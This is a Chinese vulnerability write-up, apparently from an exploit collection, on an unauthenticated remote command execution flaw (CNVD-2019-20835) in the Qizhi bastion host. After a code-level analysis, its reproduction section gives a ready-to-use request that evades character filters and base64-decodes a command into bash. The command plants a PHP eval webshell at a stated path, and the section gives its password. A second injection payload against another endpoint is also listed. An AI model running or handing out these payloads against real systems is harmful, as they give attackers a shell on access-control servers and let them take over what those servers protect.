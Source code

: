 （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用条件：无需登录

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

问题出现在ha\_request.php文件，第37行的exec函数，\$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node\_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

　　Node\_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求\$url，并返回其内容。根据代码逻辑，\$url
=
\"http://\$req\_ipaddr\".\"/listener/\$method.php?n=\$req\_node\_id&a=\".urlencode(json\_encode(\$args));。所以\$url变量值类似于

<http://10.20.10.11/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

　　但是\$req\_ipaddr和\$req\_node\_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster\_manage.php文件的内容为"\<?php
echo
'OK';\>"，即可使得node\_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

　　回到exec函数，此时该函数的第一个参数是这样的，\"wget
\--no-check-certificate http://10.20.10.11
/ha\_get\_install.php?n=\$req\_node\_id -O
backup\_scripts.tar.bz2\"，所以我们的payload只能放在\$req\_node\_id变量中。

　　见下图，\$req\_ipaddr和\$req\_node\_id其实来自于\$\_REQUEST\['ipaddr'\]和\$\_REQUEST\[node\_id'\]，并做了全局过滤，删除掉一些危险字符。![1.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId26.png)![2.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId27.png)![3.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId28.png)

### 漏洞复现

访问**http://www.0-sec.org/listener/cluster\_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php
密码10086

    https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}

据说还有另外一个版本是java的:

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```



参考链接
--------

> https://www.cnblogs.com/StudyCat/p/11256944.html
